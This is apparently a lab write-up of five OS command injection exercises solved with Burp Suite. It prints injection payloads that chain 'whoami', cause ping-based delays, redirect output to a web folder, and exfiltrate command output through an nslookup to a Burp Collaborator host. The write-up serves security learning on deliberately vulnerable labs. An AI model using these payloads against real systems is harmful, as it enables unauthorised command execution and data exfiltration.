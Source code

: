 # OS command injection, simple case
<hr>

## Task

![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/5fe1257e-aa10-4808-9456-07dc312be969)

Navigate to the website, 

![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/6801b2fd-9ba6-4dfd-9da5-9504da42bb14)
![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/65bc6550-551a-4063-bdcf-116f9d6b0220)

Capture this request on burpsuite and send it over to burp repeater

![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/c6e53c61-e24c-4e25-a8e5-641059dcc47d)

So the vulnerability lies in the storeId function.

Checking payload all things I saw something on chaining commands, we can execute the ```whoami``` command by chaining it. So, we'll have something like this
```sh
storeId=1|whoami
```
Trying this

![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/7eef72bb-d17b-4a48-880e-5c44fc12368e)

So we got the name of the current user.

Checking the response in our browser

![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/5c8d3284-eab1-48c8-8515-1ea3bd6c0280)

We have successfully completed the task

------------------------

# Blind OS command injection with time delays
<hr> 

## Task

![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/c2703689-8242-4165-a963-3c3a10f784c7)

Navigate to the webpage,

![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/cc8c94cc-1e7d-4212-9528-be5e103cf7b0)
![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/fe35f794-dfde-41c4-8382-c396458e1120)

Lets capture this request and send it over to burp intruder

![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/e432dc1d-c393-4f04-a888-cb3f9490f4f5)

We were told the vulnerability is in the feedback function. We'll be injecting the email section. we can use this payload to cause a 10 second delay
```sh
||ping -c 10 127.0.0.1||
```
Applying that payload and ensuring it is url encoded

![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/baa7354a-3ff3-4511-89fb-5dd0fa884613)

Checking the response in our browser

![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/7c60d089-0eff-426b-a40b-373969423ad6)

We have successfully completed the task for this lab.

-------------------------------------

# Blind OS command injection with output redirection
<hr>

## Task

![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/b10aa245-fd9c-4860-875b-9b551fe50fb6)

Navigate to the webpage,

![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/50dd66e9-7259-4b7e-88a1-8e392a22f1d7)
![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/29482e08-8050-48bd-933d-8d863f08c3cc)

Capturing this request on burpsuite and sending it over to burp repeater

![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/ccbd0a4a-dbd4-4672-8001-7d891bcf0bbc)

Now, we were given the writable folder to be ```/var/www/images``` and we are to execute the ```whoami``` command and then retrieve the output. So to write to that folder we can use the payload
```sh
||whoami > /var/www/images/abeg.txt||
```
Ensure this is url encoded

![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/52142d1b-dea3-4b0f-9398-4919c6d0dad5)

Lets try to view an image, we'll be capturing this request on burpsuite and sending it over to burp repeater

![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/5e20f52c-9ab0-4e84-8811-2d9ad311d08a)

Now the file we wrote the ```whoami``` command to earlier was ```abeg.txt```, so we'll be changing the name of the image to ```abeg.txt```

![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/e4559180-7927-4715-bf87-c6424faf6935)

Cool, the command got executed successfully. 

Checking our browser

![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/257f6306-c586-4e38-99e6-bf8d76839e97)

We have successfully solved this lab.

-------------------------

# Blind OS command injection with out-of-band interaction
<hr>

## Task

![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/ae96badf-72cb-400b-b270-8c704e0373f5)

Navigate to the webpage,

![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/ac7e3195-6efd-460d-b369-40e0886ed896)
![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/90e46c2b-b787-4cb6-a677-12b5553a9096)

Capture this request on burpsuite and send it over to burp repeater

![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/64fd3693-d050-4455-bd98-7053b2bba741)

so, to solve this lab we have to issue a DNS lookup to burp collaborator

![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/4fab75bf-9313-402e-b06c-527560ceff3e)

Click on "copy to clipboard" to copy the payload to use. So we can use ```nslookup``` with the payload burp collaborator client generated for us
```sh
||nslookup 2ad7n17mkusj9u18hveevnj8zz5pte.oastify.com||
```
Ensure it is url encoded

![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/10a8d6f5-7a53-4978-bb60-7cc1a6b4e298)

Checking the burp collaborator client window

![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/b30d0fcf-e2f0-48af-ab0d-fde372a9626e)

We have successfully sent a DNS query

Checking the webpage again,

![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/714cb00f-8d68-4769-b89f-3c86d4376771)

We have successfully solved the task

------------------------------------

# Blind OS command injection with out-of-band data exfiltration
<hr>

## Task

![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/75918da9-62b0-436b-89f7-12adc8709650)

Navigate to the website,

![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/7ed04485-449b-4307-91d3-d71e74400bd1)
![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/dff1fe06-5e81-43d6-a857-33dfffd16b3a)

Capture this request on burpsuite and send it over to burp repeater

We have execute the ```whoami``` command and exfiltrate the output via a DNS query to Burp Collaborator.

![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/dadea7c1-49d2-4eb5-a83e-2016d7a902ce)

Click on "copy to clipboard" to copy the payload to use. So we can use ```nslookup``` with the payload burp collaborator client generated for us to run the ```whoami``` command.

We can use the payload
```sh
||nslookup `whoami`.8clpqlx6r4oe0u0r87hwrnkonft5hu.oastify.com||
```
Ensure this is url encoded

![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/6ef52828-66de-4f38-9bce-de0b2543420e)

We got the name of the current  user to be ```peter-WmKLbv```. 

Submitting this name

![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/a91d42c5-bcb6-4931-8bc2-e3e50d04c4b1)
![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/2be1cde7-c4b1-4625-a8a4-ee0bbb22cb88)

We have successfully completed this lab😎












